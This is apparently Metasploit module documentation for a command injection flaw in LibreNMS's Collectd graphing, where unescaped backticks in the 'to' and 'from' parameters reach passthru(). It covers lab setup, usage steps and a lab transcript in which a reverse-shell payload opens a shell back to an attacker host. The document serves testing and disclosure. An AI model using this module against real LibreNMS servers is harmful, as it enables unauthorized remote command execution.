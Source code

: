 ## Description

  A command injection vulnerability exists in LibreNMS versions prior to `v1.50.1`.

  The injection vulnerability affects the Collectd graphing functionality. Specifically, the `to` and
  `from` parameters used in the range for graphing are sanitized with the `mysqli_escape_real_string()`
  which ignores certain characters, including backticks. These improperly sanitized parameters are then
  used in a shell command that gets executed via the `passthru()` function.

  This module has been tested on LibreNMS `v1.46` and `v.1.50`.

## Vulnerable Application

  A vulnerable version of LibreNMS (v1.50) in the form of an OVA can be downloaded [here](https://github.com/librenms/packer-builds/releases/tag/1.50).

  Login credentials can be found on the official LibreNMS [site](https://docs.librenms.org/Installation/Images/).

  Collectd will need to be set up with LibreNMS for this exploit to work. These instructions
  are for the Ubuntu OVA.
  
  ```sudo apt-get install collectd```

  Open the Collectd config file `/etc/collectd/collectd.conf`
  and uncomment the global options for the `Hostname` and `BaseDir`.
  Next, uncomment the lines for the cpu plugin.
  The plugin should look similar to this:

  ```
  <Plugin cpu>
    ReportByCpu true
    ReportByState true
    ValuesPercentage false
  </Plugin>
  ```

  Next, find the `rrdtool` plugin and ensure it looks like this:

  ```
  <Plugin rrdtool>
     DataDir "/var/lib/collectd/rrd"
     CacheTimeout 120
     CacheFlush   900
  </Plugin>
  ```

  Save and exit

  Now open `/etc/collectd/collectd.conf.d/rrdtool.conf` and add

  ```
  LoadPlugin rrdtool
  <Plugin rrdtool>
    DataDir "/var/lib/collectd/rrd"
    CacheTimeout 120
    CacheFlush   900
  </Plugin>
  ```

  Save and exit, then restart the Collectd service:

  ```sudo systemctl restart collectd```

  Lastly, add these two lines to the LibreNMS config file,
  `/opt/librenms/config.php`:

  ```
  $config['collectd_dir']                 = '/var/lib/collectd/rrd';
  $config['collectd_sock']                 = 'unix:///var/run/collectd.sock';
  ```

  Now save and exit.

  You can verify that Collectd is set up with LibreNMS by viewing the
  `localhost` device in LibreNMS and noting that there should be a Collectd
  tab on the device's main page.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/librenms_collectd_cmd_inject```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on LibreNMS `v1.46`

  ```
  msf > use exploit/linux/http/librenms_collectd_cmd_inject 
  msf exploit(linux/http/librenms_collectd_cmd_inject) > set rhosts 192.168.37.133
  rhosts => 192.168.37.133
  msf exploit(linux/http/librenms_collectd_cmd_inject) > set username blah
  username => blah
  msf exploit(linux/http/librenms_collectd_cmd_inject) > set password password
  password => password
  msf exploit(linux/http/librenms_collectd_cmd_inject) > set payload cmd/unix/reverse
  payload => cmd/unix/reverse
  msf exploit(linux/http/librenms_collectd_cmd_inject) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(linux/http/librenms_collectd_cmd_inject) > check
  [*] 192.168.37.133:80 - The target service is running, but could not be validated.
  msf exploit(linux/http/librenms_collectd_cmd_inject) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Successfully logged into LibreNMS. Storing credentials...
  [*] LibreNMS version: 1.46
  [*] Sending payload via device 122
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo 67Fk9T3DyODcIsbL;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n67Fk9T3DyODcIsbL\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 3 opened (192.168.37.1:4444 -> 192.168.37.133:50462) at 2019-08-12 15:43:16 -0500

  whoami
  www-data
  uname -a
  Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```
